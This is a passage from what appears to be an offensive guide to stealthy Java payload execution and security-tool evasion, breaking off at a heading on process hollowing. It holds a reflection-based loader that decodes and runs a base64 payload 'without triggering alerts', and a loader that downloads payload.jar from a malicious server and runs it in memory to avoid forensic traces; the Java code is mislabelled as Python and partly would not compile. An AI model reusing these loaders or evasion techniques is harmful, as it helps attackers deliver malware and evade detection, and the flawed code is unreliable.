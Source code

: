 Example (Using Reflection to Load Shellcode in a Signed JAR):
```python
import java.lang.reflect.Method;
import java.util.Base64;

public class StealthyJavaLoader {
    public static void main(String[] args) throws Exception {
        String shellcode = "BASE64_ENCODED_PAYLOAD";
        byte[] decoded = Base64.getDecoder().decode(shellcode);

        Method m = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        m.setAccessible(true);
        Class<?> c = (Class<?>) m.invoke(ClassLoader.getSystemClassLoader(), decoded, 0, decoded.length);
        c.getDeclaredMethod("run").invoke(null);
    }
}
```
✔️ Benefit: Runs inside an existing Java app without triggering alerts.


---

3. Abusing javaw.exe for Fileless Execution

Current Issue: Dropping a JAR or EXE on disk increases detection risk.

Solution: Use reflection and Java’s built-in URLClassLoader to execute payloads directly from memory.


Example (Loading Payload from Remote Server & Executing In-Memory):
```python
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

public class MemoryLoader {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://malicious-server.com/payload.jar");
        try (InputStream in = url.openStream()) {
            byte[] payload = in.readAllBytes();
            Class<?> clazz = new URLClassLoader(new URL[]{url}).defineClass(payload, 0, payload.length);
            clazz.getDeclaredMethod("run").invoke(null);
        }
    }
}
```
✔️ Benefit: Never touches disk, reducing forensic footprint.


---

4. Java Process Hollowing for Full EDR Bypass
